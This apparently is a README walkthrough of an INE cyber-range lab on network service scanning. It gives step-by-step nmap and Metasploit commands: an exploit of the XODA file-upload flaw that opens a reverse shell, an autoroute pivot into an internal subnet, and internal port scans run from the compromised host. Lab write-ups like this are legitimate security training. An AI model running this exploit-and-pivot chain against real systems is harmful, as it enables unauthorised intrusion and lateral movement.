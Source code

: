 # T1046: Network Service Scanning – INE Lab Walkthrough

**Category:** `network-reconnaissance/service-scanning`

This README documents each step performed in the INE lab titled **"T1046: Network Service Scanning"**, including commands used, screenshots taken, and their function. Each step builds upon the last to simulate realistic adversarial behavior during reconnaissance and lateral movement.

---

## 🔎 Step 1: Check Target Availability (Ping)
```bash
ping -c 4 demo.ine.local
```
✅ Confirms if the target is up and reachable.

---

## ⚡ Step 2: Nmap Scan with Service Version Detection
```bash
nmap -sV -Pn -oX myscan.xml demo.ine.local
```
- `-sV`: Detect service versions
- `-Pn`: Skip ping discovery (assume host is up)
- `-oX`: Save output in XML format for MSF import

🔽 **Output showed:**
- HTTP service on port 80 running **HttpFileServer httpd 2.3**
- RDP and SMB ports open

---

## 🐘 Step 3: Start PostgreSQL Database (for Metasploit)
```bash
service postgresql start
```
Ensures the Metasploit database backend is available for importing Nmap results.

---

## 💣 Step 4: Launch Metasploit Console
```bash
msfconsole
```

---

## 📦 Step 5: Check DB Status
```bash
db_status
```
Should return: `connected to msf` ✅

---

## 📥 Step 6: Import Nmap XML Results into MSF
```bash
db_import myscan.xml
```

---

## 🧠 Step 7: View Hosts and Services
```bash
hosts
services
```
Used to confirm target information and open services.

---

## 🌐 Step 8: Manual HTTP Request with curl
```bash
curl demo1.ine.local
```
Identifies a login page running **XODA** web application.

---

## 🚀 Step 9: Exploit XODA File Upload Vulnerability
```bash
use exploit/unix/webapp/xoda_file_upload
set RHOSTS demo1.ine.local
set TARGETURI /
set LHOST <your-ip>
exploit
```
✅ Successful reverse shell access to target machine.

---

## 🛰️ Step 10: Add Route for Internal Scanning
```bash
run autoroute -s 192.168.134.0/24
```
Adds route to pivot through the current session.

---

## 🧪 Step 11: Run Port Scan Script via Metasploit
```bash
use auxiliary/scanner/portscan/tcp
set RHOSTS 192.168.134.0/24
set PORTS 1-1000
set THREADS 20
run
```
✅ Scans internal network using the pivoted route.

---

## 📂 Step 12: Upload Bash Script for Custom Port Scan
```bash
upload portscan.sh
chmod +x portscan.sh
./portscan.sh
```
Performs custom internal port scan from within compromised host.

---

## 📝 Notes
- This lab demonstrates how attackers can chain service scanning, exploitation, pivoting, and internal discovery.
- All commands are tested on INE’s Cyber Range.

---

## 📎 Screenshots
(Screenshots can be placed in order:
`1.png` → `12.png` to reflect each step above.)

---

## 🧠 Related Concepts
- Nmap XML integration with MSF
- Web app exploitation with Metasploit
- Post-exploitation pivoting
- Internal service enumeration

---

## 📚 Reference
- INE Lab: `T1046: Network Service Scanning`
- XODA Exploit Path: `exploit/unix/webapp/xoda_file_upload`

